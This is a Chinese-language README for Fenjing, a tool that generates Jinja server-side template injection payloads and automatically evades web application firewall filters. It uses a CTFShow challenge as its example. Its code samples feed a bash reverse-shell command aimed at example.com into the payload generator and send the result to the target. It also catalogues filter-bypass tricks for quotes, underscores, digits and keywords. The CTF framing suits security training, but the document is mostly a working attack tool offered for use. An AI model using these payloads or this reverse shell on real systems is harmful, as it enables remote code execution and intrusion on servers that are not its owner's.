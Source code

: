 ![](./fenjing.webp)

> Bypassing the WAF without knowing WAF

## 介绍

焚靖是一个针对Jinja SSTI的Payload生成器，支持自动检测WAF并尝试绕过

## 使用

示例：[CTFShow]web372

首先写一个函数，这个函数接受一个字符串，如果这个字符串包含会被WAF的字符，则返回False，否则返回True

```python
@functools.lru_cache
def waf(s: str):

    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("
```

然后将这个函数和你要运行的shell命令传给模块，即可生成payload

```python
payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3003 0>&1\"")
```

完整示例：

```python
from ssti import shell_cmd

import functools
import time
import requests
import logging

logging.basicConfig(level = logging.WARNING)

# ctf.show web372
url = "http://ddde51f2-ff61-4f88-a9a7-3af3654a76b8.challenge.ctf.show/"

@functools.lru_cache
def waf(s: str):
    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

r = requests.get(url, params = {
    "name": payload
})

print(r.text)
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


### 测试绕过：

```python
from ssti import shell_cmd
import logging

logging.basicConfig(level = logging.WARNING)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)
```
